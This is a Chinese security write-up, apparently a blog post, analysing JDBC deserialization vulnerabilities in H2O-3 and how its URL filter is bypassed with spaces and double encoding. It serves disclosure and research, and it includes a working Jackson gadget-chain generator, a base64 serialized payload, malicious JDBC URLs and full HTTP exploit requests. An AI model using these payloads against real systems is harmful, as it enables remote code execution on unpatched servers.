# h2o-3 JDBC反序列化漏洞浅析(CVE-2025-6507/CVE-2025-5662/CVE-2025-6544)-先知社区

> **来源**: https://xz.aliyun.com/news/19034  
> **文章ID**: 19034

---

# 漏洞概述

H2o-3 是 H2o.ai 公司开发的开源机器学习和预测分析平台，广泛应用于大数据分析、机器学习模型构建和部署等场景。

该平台支持多种数据源连接，包括数据库、文件系统等，为数据科学家和分析师提供了强大的数据处理和建模能力。

在其 ImportSQLTable 功能中，用户可通过 JDBC 连接导入 SQL 数据库中的数据。

也因为这种特性，导致了可控制 jdbc 链接来实现jdbc 反序列化漏洞这种经典的场景。

## 影响版本：

H2o-3 <= V3.46.0.8

其实这次的几个漏洞也是之前的绕过

# 漏洞原理

CVE-2025-6507和CVE-2025-5662 修复的位置其实是同一个  <https://github.com/h2oai/h2o-3/commit/f714edd6b8429c7a7211b779b6ec108a95b7382d>



可以看到漏洞主要是由于`Pattern.compile("(?i)[?;&]([a-z]+)=");` 无法匹配参数值前的空格导致可通过在参数前添加空格来进行绕过这个正则的检测。然后攻击者就可以控制jdbc URL实现反序列化。比如这样：

```
jdbc%3Amysql%3A%2F%2F127.0.0.1%3A3309%2Ftest%3F++autoDeserialize%3Dtrue%26+queryInterceptors%3Dcom.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor

// 解码后
jdbc:mysql://127.0.0.1:3309/test?  autoDeserialize=true& queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

## 调用过程

CVE-2025-6507和CVE-2025-5662的整个调用过程也不复杂

漏洞入口是在这里

water.api.RegisterV3Api#registerEndPoints



调用了 water.api.ImportSQLTableHandler#importSQLTable



然后来到 water.jdbc.SQLManager#importSqlTable，其中会使用validateJdbcUrl对URL进行校验



​

主要过滤和校验的逻辑是在这里进行的过滤，water.jdbc.SQLManager#validateJdbcUrl




最终漏洞的触发位置 water.jdbc.SQLManager#getConnectionSafe

就是常规的jdbc的触发方式，通过`DriverManager.getConnection(url, username, password)`，能通过校验就可以在这里完成代码执行



## CVE-2025-6544绕过

但是上述pattern校验的逻辑还存在疏漏，就是当二次URL编码的时候，就没有办法匹配到。于是导致了CVE-2025-6544，这里官方在新版本，又加入了循环对编码进行解码的逻辑



# 复现

环境这边可以直接拉官方的仓库，切换到历史版本，然后自行编译

```
git clone https://github.com/h2oai/h2o-3.git
cd h2o-3
./gradlew build -x test

启动时需要加载jdbc驱动
java -cp "h2o.jar:mysql-connector-java-8.0.19.jar" water.H2OApp
```

打开后其实对应的功能点就是这里



由于项目依赖了Jackson，所以代码执行这里，可以使用Jackson的链

```
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.ProtectionDomain;
import java.util.Base64;

public class Gadget {
    public static void main(String[] args) throws Exception{
        System.out.println(generateB64POJONodeSer());
    }


    private static String generateB64POJONodeSer() throws Exception {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(writeReplace);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(classLoader, (ProtectionDomain)null);
        } catch (Exception ignored) {
        }
        byte[] code = getTemplates();
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "aaa");
        setFieldValue(templates, "_tfactory",  new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", codes);
        POJONode node = new POJONode(templates);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);
        return serial(val);
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException, IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    public static byte[] getTemplates() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass template = pool.makeClass("templates");
        template.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec("open -a calculator");";
        template.makeClassInitializer().insertBefore(block);
        return template.toBytecode();
    }
    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }
}
```

​

生成payload

```
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAnNyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAJ3QABkdhZGdldHQAC0dhZGdldC5qYXZhdAAWZ2VuZXJhdGVCNjRQT0pPTm9kZVNlcnNxAH4ACwAAABJxAH4ADXEAfgAOdAAEbWFpbnNyACZqYXZhLnV0aWwuQ29sbGVjdGlvbnMkVW5tb2RpZmlhYmxlTGlzdPwPJTG17I4QAgABTAAEbGlzdHEAfgAHeHIALGphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVDb2xsZWN0aW9uGUIAgMte9x4CAAFMAAFjdAAWTGphdmEvdXRpbC9Db2xsZWN0aW9uO3hwc3IAE2phdmEudXRpbC5BcnJheUxpc3R4gdIdmcdhnQMAAUkABHNpemV4cAAAAAB3BAAAAAB4cQB+ABd4c3IALGNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLlBPSk9Ob2RlAAAAAAAAAAICAAFMAAZfdmFsdWVxAH4AAXhyAC1jb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5WYWx1ZU5vZGUAAAAAAAAAAQIAAHhyADBjb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5CYXNlSnNvbk5vZGUAAAAAAAAAAQIAAHhwc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0/BbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXEAfgAFTAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA/////3VyAANbW0JL/RkVZ2fbNwIAAHhwAAAAAXVyAAJbQqzzF/gGCFTgAgAAeHAAAAGwyv66vgAAADQAGwEACXRlbXBsYXRlcwcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAApTb3VyY2VGaWxlAQAOdGVtcGxhdGVzLmphdmEBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0BwAHAQAIPGNsaW5pdD4BAAMoKVYBAARDb2RlAQARamF2YS9sYW5nL1J1bnRpbWUHAAwBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAOAA8KAA0AEAEAEm9wZW4gLWEgY2FsY3VsYXRvcggAEgEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsMABQAFQoADQAWAQAGPGluaXQ+DAAYAAoKAAgAGQAhAAIACAAAAAAAAgAIAAkACgABAAsAAAAWAAIAAAAAAAq4ABESE7YAF1exAAAAAAABABgACgABAAsAAAARAAEAAQAAAAUqtwAasQAAAAAAAQAFAAAAAgAGcHQAA2FhYXB3AQB4
```

填入mysql-fake-server



然后发送jdbc URL即可触发

```
POST /99/ImportSQLTable HTTP/1.1
Host: 127.0.0.1:54321
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Content-Length: 242

connection_url=jdbc%3Amysql%3A%2F%2F127.0.0.1%3A3309%2Ftest%3F++autoDeserialize%3Dtrue%26+queryInterceptors%3Dcom.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&table=a&username=base64ZGVzZXJfQ1VTVE9N&password=123123&fetch_mode=SINGLE
```



对于 CVE-2025-6544 二次编码即可进行绕过

```
connection_url=jdbc%3Amysql%3A%2F%2F127.0.0.1%3A3309%2Ftest%3F+%2561%2575%2574%256f%2544%2565%2573%2565%2572%2569%2561%256c%2569%257a%2565%3Dtrue%26+%2571%2575%2565%2572%2579%2549%256e%2574%2565%2572%2563%2565%2570%2574%256f%2572%2573%3Dcom.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&table=a&username=base64ZGVzZXJfQ1VTVE9N&password=123123&fetch_mode=SINGLE
```


